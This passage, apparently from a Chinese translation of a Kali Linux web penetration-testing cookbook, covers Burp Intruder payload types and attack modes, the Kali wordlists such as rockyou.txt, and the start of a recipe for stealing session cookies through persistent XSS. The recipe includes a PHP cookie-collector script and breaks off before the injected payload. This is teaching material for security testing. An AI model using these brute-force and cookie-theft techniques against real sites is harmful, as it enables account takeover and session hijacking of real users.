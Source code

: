 ### 工作原理

Intruder 所做的是，修改请求的特定部分，并使用定义好的载荷替换这些部分的值。载荷可以是这些东西：

+   简单列表：来自文件，由剪贴板传递或者写在文本框中的列表。

+   运行时文件：Intruder 可以在运行时从文件中读取载荷，所以如果文件非常大，它不会完全加载进内存。

+   数字：生成一列顺序或随机的数字，以十进制或十六进制形式。

+   用户名生成器：接受邮件地址列表，从中提取可能的用户。

+   爆破器：接受字符集并使用它来生成指定长度的所有排列。

这些载荷由Intruder以不同形式发送，在`Positions`标签页中由攻击类型指定。攻击类型在载荷标记中的组合和排列方式上有所不同。

+   Sniper：对于载荷的单一集合，它将每个载荷值放在每个标记位置，一次一个。

+   Battering ram：类似Sniper，它使用载荷的单一集合，不同点是它在每个请求中将所有位置设置为相同的值。

+   Pitchfork：使用多个载荷集合，并将每个集合中的一个项目放到每个标记位置中。当我们拥有不能混用的预定义数据时，这会非常有用，例如，测试已知的用户名和密码。

+   Cluster bomb：测试多个载荷，所以每个可能的排列都可以测试到。

对于结果，我们可以看到所有失败尝试都有相同的响应，这里是 811 字节。所以我们假设成功响应的长度应该不同（因为它会重定向到用户主页）。如果碰巧成功和失败请求长度相同，我们也可以检查状态码或者使用搜索框来寻找响应中的特定模式。

### 更多

Kali 包含了非常实用的密码字典和单词列表集合，位于` /usr/ share/wordlists`。一些文件可以在这里找到：

+   `rockyou.txt`：Rockyou.com在 2010 年被攻破，泄露了多于 14 亿的密码，这个列表包含它们。

+   `dnsmap.txt`：包含常用的子域名称，例如内部网络、FTP或者WWW。在我们爆破 DNS 服务器时非常实用。

+   `./dirbuster/*`：`dirbuster `目录包含Web 服务器中常见的文件名称，这些文件可以在使用`DirBuster `或 OWASP ZAP 强制浏览时使用。

+   `./wfuzz/*`：在这个目录中，我们可以找到用于Web 攻击的模糊字符串的大量集合，以及爆破文件。

## 6.6 通过 XSS 获得会话 Cookie

我们已经谈论过了 XSS，它是现在最常见的 Web 攻击之一。XSS 可以用于欺骗用户，通过模仿登录页面来获得身份，或者通过执行客户端命令来收集信息，或者通过获得会话 cookie 以及冒充在攻击者的浏览器中的正常用户来劫持会话。

这个秘籍中，我们会利用持久性 XSS 来获得用户的会话 Cookie，之后使用这个 cookie 来通过移植到另一个浏览器来劫持会话，之后冒充用户来执行操作。

### 准备

对于这个秘籍，我们需要启动 Web 服务器作为我们的 cookie 收集器，所以在我们攻击之前，我们需要启动 Kali 中的 Apache，之后在 root 终端中执行下列命令：

```
service apache2 start
```

在这本书所使用的系统中，Apache 的文档根目录位于`/var/www/html`，创建叫做`savecookie.php`的文件并输入下列代码：

```php
<?php 
$fp = fopen('/tmp/cookie_data.txt', 'a'); 
fwrite($fp, $_GET["cookie"] . "\n"); 
fclose($fp); 
?>
```
